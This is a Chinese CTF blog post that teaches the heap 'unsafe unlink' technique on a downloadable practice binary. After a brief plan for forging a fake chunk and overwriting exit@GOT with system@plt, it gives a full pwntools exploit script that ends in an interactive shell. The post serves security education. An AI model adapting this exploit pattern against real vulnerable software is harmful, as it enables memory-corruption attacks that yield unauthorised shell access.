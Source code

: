 ```yaml
---
title: unsafe unlink攻击技术示例
time: 2017-08-14
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```


在掌握了unsafe unlink的大致知识后, 这里以一个pwn题针对unsafe unlink进行一个简单的攻击示例

本节示例的漏洞程序可以从此处下载: [unsafe_unlink_example](/files/unsafe_unlink_example)

# 程序流程图

![unsafe_unlink_example](/images/unsafe_unlink_example.png)

# 攻击思路

首先程序是64位文件, 因此指针长度`size_p=8`. 我们整个的攻击思路就是, 自己先构造一个`fake_chunk`. 随后运行程序, 创建两个`chunk`, 然后向第一个chunk写入我们构造的`fake_chunk`, 这个`fake_chunk`不仅包含伪造的堆块, 还包括了堆溢出所覆盖第二个堆块的信息. 这样一来. 我们再释放掉第二个堆块, 这样自然就会使得我们的`fake_chunk`触发`unlink`操作.

接下来我们通过指针, 覆盖`exit@got`为`system@plt`, 再在菜单中选择`5`出发`exit()`就能正确执行`system`获得一个shell

# 利用代码

``` python
from pwn import *

#elf = ELF('./unsafe_unlink_example')
io = process('./unsafe_unlink_example')

size_p = 8
plt_system = 0x4009b6#elf.symbols['system']
got_exit = 0x601250#elf.got['exit']
pointer = 0x6012a0

fake_chunk = '\x00'*2*size_p + p64(pointer - 3*size_p) + p64(pointer - 2*size_p) + 'A'*(0x80-4*size_p) + p64(0x80) + p64(0x90)
overwrite = '\x00'*3*size_p + p64(got_exit)


# create node
io.recvuntil('------------------------\n')
io.sendline('1')
#io.recvuntil('create:')
io.sendline('0')

# create node
io.recvuntil('------------------------\n')
io.sendline('1')
#io.recvuntil('create:')
io.sendline('1')

# edit node
io.recvuntil('------------------------\n')
io.sendline('2')
#io.recvuntil('edit:')
io.sendline('0')
#io.recvuntil('input:')
io.sendline(str(len(fake_chunk)))
#io.recvuntil('node:')
io.sendline(fake_chunk)

# delete node
io.recvuntil('------------------------\n')
io.sendline('3')
#io.recvuntil('create:')
io.sendline('1')

# edit node
io.recvuntil('------------------------\n')
io.sendline('2')
#io.recvuntil('edit:')
io.sendline('0')
#io.recvuntil('input:')
io.sendline(str(len(overwrite)))
#io.recvuntil('node:')
io.sendline(overwrite)

# edit node
io.recvuntil('------------------------\n')
io.sendline('2')
#io.recvuntil('edit:')
io.sendline('0')
#io.recvuntil('input:')
io.sendline(str(size_p))
#io.recvuntil('node:')
io.sendline(p64(plt_system))

# exit
io.recvuntil('------------------------\n')
io.sendline('5')
io.interactive()
```
